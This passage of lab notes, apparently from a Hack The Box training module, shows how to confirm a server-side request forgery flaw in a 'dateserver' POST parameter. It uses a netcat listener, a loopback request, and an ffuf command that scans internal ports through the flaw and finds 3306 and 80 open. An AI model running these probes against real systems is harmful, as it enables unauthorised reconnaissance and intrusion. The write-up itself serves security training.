 ![](Pasted%20image%2020250221094134.png)

As we can see, the request contains our chosen date and a URL in the parameter `dateserver`. This indicates that the web server fetches the availability information from a separate system determined by the URL passed in this POST parameter.

To confirm an SSRF vulnerability, let us supply a URL pointing to our system to the web application:

![](Pasted%20image%2020250221094142.png)

In a `netcat` listener, we can receive a connection, thus confirming SSRF:

```shell
gitblanc@htb[/htb]$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 38782
GET /ssrf HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

To determine whether the HTTP response reflects the SSRF response to us, let us point the web application to itself by providing the URL `http://127.0.0.1/index.php`:

![](Pasted%20image%2020250221094200.png)

Since the response contains the web application's HTML code, the SSRF vulnerability is not blind, i.e., the response is displayed to us.

## Enumerating the System

We can use the SSRF vulnerability to conduct a port scan of the system to enumerate running services. To achieve this, we need to be able to infer whether a port is open or not from the response to our SSRF payload. If we supply a port that we assume is closed (such as `81`), the response contains an error message:

![](Pasted%20image%2020250221094325.png)

This enables us to conduct an internal port scan of the web server through the SSRF vulnerability. We can do this using a fuzzer like `ffuf`. Let us first create a wordlist of the ports we want to scan. In this case, we'll use the first 10,000 ports:

```shell
gitblanc@htb[/htb]$ seq 1 10000 > ports.txt
```

Afterward, we can fuzz all open ports by filtering out responses containing the error message we have identified earlier.

```shell
gitblanc@htb[/htb]$ ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"

<SNIP>

[Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 0ms]
    * FUZZ: 3306
[Status: 200, Size: 8285, Words: 2151, Lines: 158, Duration: 338ms]
    * FUZZ: 80
```
